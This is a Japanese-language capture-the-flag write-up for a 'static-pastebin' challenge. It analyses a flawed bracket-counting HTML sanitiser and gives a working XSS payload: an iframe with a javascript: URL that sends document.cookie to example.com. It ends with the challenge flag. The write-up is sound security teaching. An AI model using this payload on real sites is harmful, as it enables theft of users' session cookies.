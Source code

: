 # static-pastebin (374 solves/ 373 points)

> I wanted to make a website to store bits of text, but I don't have any experience with web development. However, I realized that I don't need any! If you experience any issues, make a paste and send it here
> Site: ...
> Note: The site is entirely static. Dirbuster will not be useful in solving it.

## solution

与えられたURLにアクセスすると、Static pastebinというサイトにつながった。
テキストエリアに文字列を入力してCreateボタンを押すと、https://..../paste/#<Base64エンコードされた入力文字列>へ移動し、入力した文字列が表示される。

また、adminをstatic-pastebinで作成したページへ訪問させることができる。

入力された文字列を表示するページでは、このjavscriptを実行していた。

```javascript
(async () => {
    await new Promise((resolve) => {
        window.addEventListener('load', resolve);
    });

    const content = window.location.hash.substring(1);
    display(atob(content));
})();

function display(input) {
    document.getElementById('paste').innerHTML = clean(input);
}

function clean(input) {
    let brackets = 0;
    let result = '';
    for (let i = 0; i < input.length; i++) {
        const current = input.charAt(i);
        if (current == '<') {
            brackets ++;
        }
        if (brackets == 0) {
            result += current;
        }
        if (current == '>') {
            brackets --;
        }
    }
    return result
}
```
文字列の中に`<`が見つかるとbracketsに1加算、`>`が見つかるとbracketsから1減算、bracketsが0の時はresultに先頭からi番目の文字列を追加するという処理を行っている。
特にエスケープを行っている様子はないのでうまくすればXSSできそうである。

`>`を入力してから`<`を入力するとbracketsの値をうまく0に調節できる。
よって、`><iframe src="javascript:window.location.href='https://example.com/?'+document.cookie">`を入力して表示させるとうまくページ遷移させることができた。

後は`><iframe ...>`が埋め込まれたURLをadminに踏ませるとフラグが手に入る。

```
flag{54n1t1z4t10n_k1nd4_h4rd}
```
